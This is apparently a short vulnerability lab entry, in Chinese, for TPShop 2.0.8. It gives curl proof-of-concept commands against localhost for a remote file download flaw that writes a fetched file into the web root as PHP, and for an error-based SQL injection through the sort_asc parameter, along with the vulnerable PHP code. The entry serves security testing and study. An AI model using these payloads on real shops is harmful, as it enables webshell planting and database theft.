 ### Home/test/dlfile 远程文件下载

测试镜像

* src/topshop/2.0.8/

影响版本

* 2.0.8

参考链接

* [【PHP代码审计】TPShop漏洞集合](https://mp.weixin.qq.com/s/TNuM8q8JZsFR_46j5LemMw)

Poc

```
curl 'http://127.0.0.1/index.php/Home/test/dlfile' -d 'file_url=http://127.0.0.1/robots.txt&save_to=/var/www/html/robots.php'
curl 127.0.0.1/robots.php
```

### shop_price sort_asc 参数报错注入

测试镜像

* src/topshop/2.0.8/

影响版本

* 2.0.8

参考链接

* [【PHP代码审计】TPShop漏洞集合](https://mp.weixin.qq.com/s/TNuM8q8JZsFR_46j5LemMw)

Poc

```
curl 'http://127.0.0.1/index.php/Home/Goods/goodsList/id/1/sort/shop_price/sort_asc/,(updatexml(2,concat(0x7e,(version())),0))'
```

关键代码

```
# 获取参数
$sort_asc = I('get.sort_asc','asc');

...

# 注入
$goods_list = M('goods')->where(['is_on_sale' => 1, 'goods_id' => ['in', implode(',', $filter_goods_id)]])->order("$sort $sort_asc")->limit($page->firstRow . ',' . $page->listRows)->select();
```


